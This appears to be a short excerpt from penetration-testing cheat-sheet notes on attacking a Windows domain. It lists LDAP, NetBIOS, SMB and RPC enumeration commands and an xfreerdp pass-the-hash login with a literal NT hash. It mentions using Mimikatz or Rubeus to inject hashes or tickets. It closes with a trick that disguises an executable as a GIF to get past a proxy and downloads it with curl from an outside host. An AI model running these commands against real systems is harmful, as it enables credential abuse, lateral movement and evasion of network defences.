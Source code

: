 - LDAP
	- `ldapsearch -H ldap://192.168.100.2 -x -LLL -W -D "anakin@contoso.local" -b "dc=contoso,dc=local" "(objectclass=computer)" "DNSHostName" "OperatingSystem"`
		- Generally requires domain creds
- `nbtscan 192.168.100.0/24`
	- Scan NetBIOS name service on 137
- `ntlm-info smb 192.168.100.0/24`
	- Scan SMB
- RDP
	- `xfreerdp /u:Anakin@contoso.local /pth:cdeae556dc28c24b5b7b14e9df5b6e21 /v:192.168.122.143`
	- From Windows, can inject NT hash/Kerb ticket with Mimikatz or Rubeus, then use mstsc.exe /restrictedadmin to RDP without password
- RPCClient
	- `rpcclient <IP> [-U '']`
	- Enumerate domain users
		- `rpcclient -enumdomusers`
	- Display info on domain users
		- `querydispinfo`
- - If a proxy is blocking your files, try the following:
	- Rename file and place false magic bytes at beginning
		- `sed '1s/^/GIF87a/' calc.exe > calc.gif`
	- Download, stripping the false magic bytes
		- `curl.exe -qk -X GET -C 6 https://example.com/calc.gif > calc.exe`
